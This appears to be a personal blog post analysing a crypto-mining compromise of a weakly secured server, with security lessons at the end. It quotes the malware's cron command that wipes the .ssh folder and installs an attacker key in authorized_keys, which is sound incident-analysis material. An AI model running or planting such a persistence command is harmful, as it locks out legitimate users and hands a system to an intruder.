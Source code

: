 ```yaml
---
date: "2020-05-29T00:00:00Z"
description: One of my DigitalOcean instances got hacked by a crypto miner. The instance
  was insignificant but gave me the opportunity to poke around the code.
meta_img: /image/digitalocean-cpu-alert.png
keywords: computer hacking, crypto mining hack
tags:
- 'code'
title: Anatomy of a crypto mining hack
---
```


A few months ago I set up a simple ftp server to help a friend. I took a few security shortcuts which came to bite me this week when I received an alert from DigitalOcean that an instance was running hot.

<img src="/image/digitalocean-cpu-alert.png" alt="DigitalOcean CPU Alert" data-width="503" data-height="280" data-layout="responsive" />

I dug into it and noticed a series of processes being run by the ftp_user - the most impactful was a command called rsync. I'm familiar with rsync which syncs files across devices - and this was nothing like that. At this point I realized that I got hacked and quickly disabled the user and killed all its processes. The CPU usage dropped back to normal and now it was time to dig into the damage.

Note that I’m far from a security engineer but am reasonably comfortable on the command line. The user was not a sudo account and this was a non critical instance so I wasn't too worried about the impact. In fact, I actually enjoyed the exercise of digging in and trying to see how I was hacked and how the entire script worked.

The origin of the hack was that I was sloppy when I created the ftp account and gave it both a weak password and didn't disable password-based authentication for SSH. This led to the attacker brute forcing the password and getting access to the ftp_user's home folder on the instance. Once there, the attacker downloaded a bunch of code that both embedded itself in the system and then started running a miner.

Before I got rid of the code I took the liberty of committing it to [GitHub](https://github.com/dangoldin/crypto-miner-hack) in order to preserve and share with others. That also gave me the time to dig in and see how it actually worked.

One of the first things I noticed was how obfuscated the code was. The file names and folders were either named after existing programs or were hidden files and directories. In addition, the names were completely nonsensical and intricately linked which made it difficult to trace the execution. I didn't go through the code step by step by digging into the files and found a few interesting tidbits.

One was that the [code created](https://github.com/dangoldin/crypto-miner-hack/blob/69fae2599bff579e7c159c984c6a9e9087b22378/ftp_user/.configrc/b/run#L5) a cron job that would wipe the .ssh folder and then add a single ssh key - thereby locking every other user out.

{{< highlight bash >}}cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr">>.ssh/authorized_keys && chmod -R go= ~/.ssh{{< / highlight >}}

Another was that there was a [script to kill](https://github.com/dangoldin/crypto-miner-hack/blob/69fae2599bff579e7c159c984c6a9e9087b22378/ftp_user/.configrc/a/init0) other miners. I assume the motivation here was to realize that if this instance was dumb enough to get hacked then it was probably hacked by someone else already so let's put a stop to that.

The most interesting part was an [encoded string](https://github.com/dangoldin/crypto-miner-hack/blob/69fae2599bff579e7c159c984c6a9e9087b22378/ftp_user/.configrc/b/run#L4) that was passed into the Perl interpreter. The first step decoded it into a highly obfuscated Perl program and the [subsequent step](https://github.com/dangoldin/crypto-miner-hack/blob/master/ftp_user/.configrc/b/run_2_safe_obfuscated) executed it through an eval. The [code itself](https://github.com/dangoldin/crypto-miner-hack/blob/master/ftp_user/.configrc/b/run_3_safe_decoded) is fascinating and those more knowledgeable [figured out](https://malware.news/t/dota-campaign-analyzing-a-coin-mining-and-remote-access-hybrid-campaign/30326) it was connecting and listening to commands from an IRC server.

There's a fascinating amount of research one can do here to understand everything the hackers managed to do and yet it's a world most of us are only tangentially aware of. There are clear lessons here. One is to take security seriously even if it is a toy project - in this case both a strong password and limiting password-based SSH would have stopped the hack. The other is that even simpler monitoring is a huge help. If DigitalOcean had not sent me the alert my instance would still be mining cryptocoins. And the last one is that running a honeypot is an insightful experience and gives you a chance to learn something new and flex those debugging muscles.
